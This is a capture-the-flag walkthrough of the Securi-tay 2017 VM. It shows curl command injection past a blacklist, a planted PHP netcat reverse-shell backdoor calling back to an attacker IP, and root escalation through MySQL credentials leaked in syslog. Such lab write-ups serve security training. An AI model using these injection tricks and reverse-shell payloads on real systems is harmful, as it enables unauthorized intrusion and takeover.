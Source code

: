 #Securi-tay 2017

This CTF can be found here: https://maze.pentest-challenge.co.uk/


Booting up the VM gives you the IP of the target: 

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_securictf_29_04_2017_09_02_56.png)

An NMAP scan of all ports `nmap -p- 192.168.1.143` returns port 80 open, running and HTTP service.

Visiting this in a browser I am presented a page with some kind of "URL connectivity checker" which just returns the resource or the URL that is entered.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_05_20.png)

Looking at the output it is pretty clear the backend is using cUrl to return the requested URL. A couple things pop into my mind, maybe LFI or better yet RCE. 

Before poking at this I went ahead and started bruteforcing directories in the background:

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_16_00.png)

Looking back at index.php I tried a few things the first being LFI.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_06_59.png)

Ok, cool so I can view files on the system maybe there is something interesting we can find, but before spending time looking for interesting files let me see if I can just acheive RCE and get a reverse shell.

I tried some different input that would allow me to append a command to the cUrl command that retreives the resource and it seemed there was some kind of black listing. This prevented me from using something straight forward like, `&` or `|`.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_08_09.png)

Since blacklisting is never a good way to go when preventing input there has to be a way to get a command to execute. Sure enough I found a few different ways to do this. 

I can use something like `$(whoami)` which will evaluate the command in the parenthesis before executing the curl command and return the output in the error.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_29_04_2017_09_17_49.png)

Intercepting the POST request in Burpsuite I was able to insert a URL encoded newline charater `%0a` followed by any command which will execute the command.

I ended up figuring out that I can also just redirect the output of the cUrl command to a file. Looking back at the directory brute force I had started, there is a directory called `/uploads` which is likley writable by www-data.

I created a file on my attacker machine that contained some PHP to execute netcat on the target and connect back to my machine giving me a bash shell `<?php system('nc -c "/bin/bash" 192.168.1.139 444);?>`. Then started up a python simple http sever and requested this file using the interface of the target web app and redirected the output to a file in the uploads directory like so: `http://192.168.1.139:555/backdoor > ./uploads/backdoor.php`. The `>` is redirecting this output of the cUrl command which will be the PHP of the file I created on my attacker machine and putting it into a file called backdoor.php.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_45_20.png)

Check if the file successfully ended up in `/uploads`

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_48_46.png)

Yup, ok now I have my reverse shell on the target machine I can startup netcat on my attacker machine and get a connection.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_53_28.png)

Spawn a proper shell.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_09_54_25.png)

Now that I have a shell on the target machine the first thing is to look around the environment. I started out looking for any interesting binaries or scripts that may have been created by a user that may perform interesting functions or have permissions set incorrectly. Listing the contents of the home directory for "ctfuser" revealed just that.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_33_39.png)

Look like mydbconnchecker is a binary that we have permission to execute. After running it the output shows that it is loging some information about the mysql database into syslog.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_35_02.png)

Reading syslog to see what is being logged shows that the username of `root` and with a password of `rorscahc` is being used to log into the `mysql` database on localhost `127.0.0.1`.

Taking a look at the proccesses running shows MySQL is running as root..not a good idea.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_42_33.png)

A quick google search showed me I can run shell commands from MySQL https://www.electrictoolbox.com/shell-commands-mysql-command-line-client/ . So now I have MySQL running as root, credentials to log into MySQL and a way to execute a shell command from MySQL. Lets try it out.

![](https://github.com/d-l-y/CTF-walkthroughs/blob/master/images/VirtualBox_Kali-Linux-2016.1-vbox-amd64_30_04_2017_11_44_26.png)

And there we go.. I can now read generate a flag from the `/root` directory.



